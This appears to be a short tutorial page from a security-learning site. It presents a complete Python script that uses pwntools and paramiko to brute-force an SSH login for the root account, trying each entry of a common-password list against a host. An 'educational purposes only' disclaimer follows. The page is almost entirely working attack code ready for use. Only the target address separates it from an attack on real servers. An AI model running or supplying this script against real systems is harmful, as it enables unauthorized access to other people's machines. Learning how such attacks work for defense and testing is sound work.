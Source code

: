 [pwntools SSH documentation 💥](https://docs.pwntools.com/en/stable/tubes/ssh.html "pwnlib.tubes.ssh — SSH")

---

This script uses the `pwntools` and `paramiko` modules to perform an SSH login brute-force attack.
```py linenums="1"
from pwn import *
import paramiko

host = "127.0.0.1"
username = "root"
attempts = 0

with open("ssh-common-passwords.txt", "r") as password_list:
    for password in password_list:
        password = password.strip("\n")
        
        try:
            print(f"[{attempts}] Attempting password: '{password}'!")
            response = ssh(host=host, user=username, password=password, timeout=1)

            if response.connected():
                print(f"[>] Valid password found: '{password}'!")
                response.close()
                break
            response.close()
        except paramiko.ssh_exception.AuthenticationException:
            print("[x] Invalid password!")
        attempts += 1
```

!!! warning "Legal Disclaimer"
    This script is for educational purposes only. Unauthorized use of this script against systems without explicit permission is illegal and unethical.